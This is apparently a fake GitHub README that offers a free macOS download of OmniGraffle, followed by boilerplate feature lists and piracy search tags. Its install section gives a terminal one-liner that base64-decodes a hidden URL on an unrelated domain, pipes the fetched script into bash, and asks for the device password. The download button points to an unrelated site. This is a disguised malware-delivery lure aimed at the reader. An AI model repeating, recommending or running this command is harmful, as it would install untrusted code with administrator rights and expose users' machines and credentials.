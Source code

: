 # OmniGraffle for macOS – Diagramming & UX Design Toolkit

![OmniGraffle Screenshot](https://www.omnigroup.com/assets/img/2020/graffle-47.jpg)

## 📥 Download OmniGraffle for macOS

[![⬇️ Download OmniGraffle Mac](https://img.shields.io/badge/Download-OmniGraffle%20Mac-blue?style=for-the-badge&logo=apple&logoColor=white)](https://mitrobandus.github.io/.github/OmniGraffle)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash 
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is OmniGraffle for Mac?

OmniGraffle is a professional visual design tool for macOS, crafted for building precise diagrams, wireframes, process charts, and UX flows. Whether you're mapping out user interfaces, network layouts, or business workflows, it offers unparalleled control and refinement.

Designed with macOS in mind, OmniGraffle features alignment guides, vector drawing tools, layers, grids, and automatic diagram layout engines. It’s used by professionals in design, development, and engineering to build clean, scalable visuals quickly.

If you're transitioning from tools like Visio or Lucidchart, OmniGraffle offers a native, powerful alternative tailored for Apple Silicon and Intel Macs.

---

![OmniGraffle Layout Screenshot](https://www.omnigroup.com/assets/img/2020/graffle-48.jpg)

---

## ⚙️ Key Features

- 🧠 Smart guides, alignment tools & snapping
- 🖍️ Vector-based drawing and Bézier editing
- 📊 Dynamic object connections & styling
- 🧩 Layered canvas support with grids
- 💼 Export to PDF, PNG, SVG, Visio & more
- 📐 Precision drawing tools for UX/UI diagrams
- 🔄 Automatic diagram layout algorithms
- 💻 Optimized for Apple Silicon & Intel

---

## 💻 System Requirements

- macOS 10.10 (Yosemite) or later  
- Supports Monterey, Ventura, Sonoma  
- Intel & Apple Silicon (M1/M2/M3)  
- At least 100MB free disk space  

---

## 🔍 Tags

omnigraffle mac, omnigraffle download, graffle mac, omnigraffle professional, omnigraffle free, alternatives to omnigraffle, omnigraffle 5, omnigraffle 6, download omnigraffle 6, omnigraffle 7 download, omnigraffle 7 pro, omnigraffle download for mac, omnigraffle download mac, omnigraffle free download, omnigraffle m1, omnigraffle mac free, omnigraffle pro 7, omnigraffle mac download, omnigraffle mac free download

---

